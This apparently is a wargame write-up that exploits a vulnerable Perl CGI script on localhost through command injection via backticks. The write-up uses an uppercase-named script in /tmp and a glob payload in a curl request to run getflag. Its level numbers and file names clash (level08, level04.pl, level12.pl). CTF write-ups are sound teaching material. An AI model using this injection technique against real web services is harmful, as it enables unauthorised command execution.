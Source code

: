 # level08 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level04.pl `

```
$ ls
> level12.pl
```

As level04, it's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level12.pl  
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

With that we can see 4 important elements :

```
- localhost:4646 -> url, so we can try to call the website with curl

- n(t(param("x"), param("y"))); -> parameters who can contain a value

- $xx = $_[0];			|	  First parameter (x) will be transform
  $xx =~ tr/a-z/A-Z/;	| ->  to uppercase and 
  $xx =~ s/\s.*//;		|	  remove spaces

- @output = `egrep "^$xx" /tmp/xd 2>&1`; -> will be breakable with a code injection cause of ` character
```

According to elements, we should make an injection using an uppercase file (read permisssion) who write ```getflag``` return value on another file

```
$ echo "getflag > /tmp/flag" > /tmp/GET
$ chmod 777 /tmp/GET
```

Ok let's do this

```
$ curl 127.0.0.1:4646?x='`/*/GET`'
> ..
$ cat /tmp/flag
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level11">previous level</a> - <a href="../../level13">next level</a>
